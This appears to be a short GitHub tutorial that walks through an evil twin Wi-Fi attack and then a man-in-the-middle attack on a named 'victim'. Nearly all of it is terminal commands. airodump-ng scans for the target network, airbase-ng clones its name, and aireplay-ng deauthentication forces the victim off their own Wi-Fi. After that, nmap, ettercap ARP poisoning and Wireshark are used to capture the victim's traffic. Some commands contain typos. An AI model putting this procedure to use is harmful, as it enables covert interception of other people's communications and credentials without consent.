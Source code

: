 ## IN THIS TUTORIAL YOU WILL LEARN HOW TO CREATE A EVIL TWIN ATTACK AND PERFORM MITM ATTACK.


### TERMINAL 1 :

Step 1 :->  service apache2 start

Step 2 :->  ifconfig wlan1 down (or the network adapter you are using)

Step 3 :->  iwconfig wla1 mode monitor

Step 4 :->  ifconfig wlan1 up

Step 5 :->  airodump-ng wlan1

Step 6 :->  ctrl + c 

Step 7 :->  airodump-ng --bssid 00:00:00:00:00:00 -c 0 wlan1 [bssid = vicitims network bssid  -c 0 = channel on which the victim network 
is on]

Step 8 :->  now copy the station id of the victims device (mac address)


### TERMINAL 2 :  TO CREATE A FAKE WIFI 

Step 1 :->  sudo airbase-ng -e "wifiname" -a 00:00:00:00:00:00 -c 0 wlan1   ["wifiname" = victims wifi name which we are copying and 
creating a fake wifi]




### TERMINAL 3 :  to remove the victim from his own wifi and force him to join our fake wifi



Step 1 :->  sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 -c 00:00:00:00:00:00 wlan1   [-a bssid = victims wifi, -c bssid = vicitims device mac address]




# ONCE WE HAVE THE VICTIM ON THE FAKE NETWORK THEN WE CAN PERFORM MAN IN THE MIDDLE ATTACK.

STEP 1 :->  sudo nmap -Sn 192.168.01/24 (192.168.0.1 = ROUTER'S IP)

STEP 2 :->  sudo ettercap -T -S -i wlan0 -M arp:remote /192.168.0.1// /192.168.0.0//   [192.168.0.1=router's ip, 192.168.0.0=victim's ip]



### NEW TERMINAL 



STEP 1 :->  sudo wireshark   [you can see all the traffic between the router and the victim]
 

